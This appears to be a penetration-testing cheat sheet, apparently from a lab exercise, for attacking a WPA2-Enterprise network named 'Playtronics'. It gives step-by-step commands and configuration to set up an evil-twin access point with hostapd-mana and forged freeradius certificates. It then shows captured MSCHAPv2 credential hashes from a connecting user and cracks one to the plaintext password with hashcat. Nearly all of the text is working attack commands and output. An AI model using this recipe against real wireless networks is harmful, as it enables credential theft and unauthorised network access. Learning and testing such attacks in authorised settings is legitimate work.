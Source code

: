 ## WPA Enterprise


sudo airodump-ng wlan0mon


BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics

to mimick this AP

sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs

nano ca.cnf
....
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
....

nano server.cnf
....
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
....

rm dh
make destroycerts

sudo apt install hostapd-mana

nano /etc/hostapd-mana/mana.conf


ssid=Playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1


nano /etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]

#start the AP with certificate
sudo hostapd-mana /etc/hostapd-mana/mana.conf


OUTPUT FROM A USER LOGGINING IN

MANA EAP EAP-MSCHAPV2 ASLEAP user=user1 | asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e
MANA EAP EAP-MSCHAPV2 JTR | user1:$NETNTLM$5f57b0b6d16de082$e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082

## Hashcat
5500 | NetNTLMv1 / NetNTLMv1+ESS

echo user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082 > wpa_enterprise.txt

hashcat -m 5500 wpa_enterprise.txt rockyou.txt

user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)













